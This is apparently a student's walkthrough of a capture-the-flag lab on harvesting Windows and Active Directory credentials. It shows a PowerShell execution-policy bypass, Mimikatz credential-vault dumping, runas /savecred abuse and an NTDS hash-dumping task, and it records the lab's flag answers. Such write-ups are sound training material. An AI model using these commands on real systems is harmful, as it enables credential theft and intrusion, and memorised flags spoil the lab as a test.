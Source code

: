 ```
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials
```

![[Pasted image 20250607223402.png]]

```
Flag : E4syPassw0rd
```

* Use Mimikatz to memory dump the credentials for the 10.10.237.226 SMB share which is stored in the Windows Credential vault. What is the password?

Command : 

```
privilege::debug
sekurlsa::credman
```


![[Pasted image 20250607224102.png]]

```
Flag : jfxKruLkkxoPjwe3
```

* Run cmd.exe under thm-local user via runas and read the flag in "c:\Users\thm-local\Saved Games\flag.txt". What is the flag?

We need to run below command to spawn a command prompt inside user `thm-local` user 

```
runas /savecred /user:thm.red\thm-local cmd.exe  
```

Flag is located in C:\User\thm-local\Saved Games\flag.txt 

![[Pasted image 20250607224725.png]]

```
Flag : THM{RunA5S4veCr3ds}
```

---

##### Domain Controller

This was another great part of this module. I have used Mimikatz DCSync and Impacket’s secretsdump in the past to dump hashes from AD, however I had not dumped it offline before. Attackers may use this technique if they manage to access a DC in order to avoid tripping network traffic monitors. They also may use it if they can access an offline backup.

* Apply the technique discussed in this task to dump the NTDS file **locally** and extract hashes. What is the target system bootkey value? **Note**: Use thm.red/thm as an Active Directory user since it has administrator privileges!
